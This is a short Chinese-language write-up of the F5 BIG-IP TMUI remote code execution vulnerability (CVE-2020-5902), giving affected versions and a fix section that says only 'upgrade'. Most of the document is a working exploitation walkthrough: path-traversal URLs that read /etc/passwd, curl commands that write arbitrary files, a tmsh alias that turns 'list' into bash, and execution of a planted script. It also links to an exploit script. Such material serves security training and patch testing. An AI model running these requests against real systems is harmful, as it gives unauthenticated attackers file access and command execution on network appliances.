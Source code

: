 ### 一 漏洞描述
F5 BIG-IP 是美国``F5公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。 在F5 BIG-IP产品的流量管理用户页面 (TMUI)/配置程序的特定页面中存在一处远程代码执行漏洞，导致可以未授权访问TMUI模块所有功能（包括未公开功能），漏洞影响范围包括执行任意系统命令、任意文件读取、任意文件写入、开启/禁用服务等。

影响范围:
F5 BIG‐IP 15.1.0

F5 BIG‐IP 15.0.0

F5 BIG‐IP 14.1.0‐14.1.2

F5 BIG‐IP 13.1.0‐13.1.3

F5 BIG‐IP 12.1.0‐12.1.5

F5 BIG‐IP 11.6.1‐11.6.5


### 二 漏洞利用
1.登录管理页面既是漏洞存在的地方，我们使用poc进行测试文件读取：
https://ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://ip/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts

2.写入文件
curl -k -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "fileName=/tmp/success&content=东塔网络安全学院" "https://172.16.1.200/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp"

3.读取文件
curl -k "https://172.16.1.200/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/tmp/success"

4 修改alias劫持list命令为bash
curl -k "https://172.16.1.200/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash"

4.1 写入文件：bash文件
https://172.16.1.200/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/test&content=id

4.2 执行bash文件
https://172.16.1.200/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/test

### 三 漏洞修复
升级


> 参考链接
> https://www.jianshu.com/p/6402dc56982a
> exp: https://github.com/jas502n/CVE-2020-5902/blob/master/CVE-2020-5902.py
